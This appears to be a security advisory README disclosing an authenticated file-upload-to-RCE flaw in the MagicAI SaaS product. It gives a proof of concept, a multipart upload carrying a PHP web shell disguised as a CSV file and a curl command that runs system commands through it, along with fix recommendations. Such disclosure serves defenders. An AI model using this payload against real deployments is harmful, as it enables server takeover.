
# 🐚 MagicAI - Authenticated File Upload to RCE via Mimetype Manipulation 

📌 **Product Information**  
**Platform**: Laravel + Vue (SaaS)  
**Affected Feature**: File Upload on Chat File Analyzer  
**Tested Vulnerability**: Arbitrary File Upload via Mimetype Bypass  
**CVE**: Not Assigned  
**Severity**: Critical (RCE via file manager bypass)  
**CWE ID**: CWE-434  
**CWE Name**: Unrestricted Upload of File with Dangerous Type  
**Patched**: ❌ Not Applicable  
**Patch Priority**: 🔴 High  
**Date Published**: July 28, 2025  
**Researcher**: yucaerin  
**Vendor**: [liquidthemes](https://codecanyon.net/user/liquidthemes)  
**Product Link**: [MagicAI SaaS - Chat, Image, Code Generator](https://codecanyon.net/item/magicai-openai-content-text-image-chat-code-generator-as-saas/45408109)

---

⚠️ **Summary of the Vulnerability**  
MagicAI’s document analyzer feature allows users to upload `.csv` or document files. The backend does **not** sufficiently validate file content against its declared mimetype. As a result:

- Attacker can upload a PHP file disguised as a `.csv` (e.g., `shell.php` with `Content-Type: text/csv`)
- File gets stored in a publicly accessible folder or accessible via File Manager
- Remote command execution is possible if file is executed on server

## 🧪 Proof of Concept (PoC)

### ➤ Step 1 - Upload Malicious File via Analyzer Endpoint

```http
Content-Disposition: form-data; name="category_id"

15
------WebKitFormBoundary
Content-Disposition: form-data; name="doc"; filename="shell.csv"
Content-Type: text/csv

﻿host
<?php system($_GET['cmd']); ?>
------WebKitFormBoundary
Content-Disposition: form-data; name="type"

yucaerin/csv.php
aa
------WebKitFormBoundary--
```

### ➤ Step 2 - Trigger the Uploaded Payload

Assuming upload path is known or predictable:
```bash
curl https://target.com/uploads/temp.yucaerin/csv.php?cmd=id
```

✅ **Indicators of Success**:
- `uid=33(www-data)` or similar command output in response
- File accessible via web

## 🔍 Where’s the Flaw?
- Trusting client-supplied `Content-Type`
- No backend file signature validation
- Lack of strict file extension whitelist + file content inspection

## 🔐 Recommendation
- Validate mimetype **and** content on backend
- Only allow `.csv`, `.txt`, `.docx` with MIME and magic-byte checking
- Store uploads outside webroot or apply `.htaccess` deny execution
- Use Laravel’s `Storage::putFileAs()` with proper file visibility control

## ⚙️ Optional Automation Features
A script or tool can:
- Upload multiple payloads with varying extensions
- Search predictable upload paths
- Trigger RCE via GET parameter

## 🛑 Affected Versions
- MagicAI (as of July 2025) – no file upload protection on analyzer
- Deployment with file write permission + public path = vulnerable

## ⚠️ Disclaimer  
This PoC is for **educational and authorized security testing** only.  
Do **not** test on systems you don’t own or don’t have permission to analyze.  
Unauthorized access is illegal and unethical.
